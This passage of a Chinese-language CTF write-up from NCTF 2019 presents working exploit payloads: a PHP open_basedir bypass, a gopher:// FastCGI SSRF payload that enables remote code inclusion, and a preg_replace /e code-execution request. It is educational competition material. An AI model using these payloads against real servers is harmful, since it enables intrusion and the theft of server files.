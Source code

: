 可以看到有``open_basedir	/var/www/html:/tmp``

用一个经典的绕过方式

```
mkdir('eki');chdir('eki');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

```bash
python gopher.srff.exp.py -c "<?php mkdir('eki');chdir('eki');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));?>" 173.236.149.10 /var/www/html/index.php

gopher://127.0.0.1:9000/_%01%01z%BF%00%08%00%00%00%01%00%00%00%00%00%00%01%04z%BF%01%DC%00%00%0E%03CONTENT_LENGTH171%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04z%BF%00%00%00%00%01%05z%BF%00%AB%00%00%3C%3Fphp%20mkdir%28%27eki%27%29%3Bchdir%28%27eki%27%29%3Bini_set%28%27open_basedir%27%2C%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bini_set%28%27open_basedir%27%2C%27/%27%29%3Becho%28file_get_contents%28%27flag%27%29%29%3B%3F%3E%01%05z%BF%00%00%00%00`
```
## 0x05 easyphp

大佬队友带我躺赢。。。。。

## 0x06 replace

填三个"#"报错

```
Parse error: syntax error, unexpected end of file in /var/www/html/index.php(70) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code: # in /var/www/html/index.php on line 70
```

实现功能使用的是preg_match()

题目提示用了php5.6

想到preg_match() /e参数

试一下可以执行phpinfo()

```
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=6vtpnnca8f9mjjde768sqiub4g
Upgrade-Insecure-Requests: 1

sub=text&pat=e&rep=phpinfo();
```
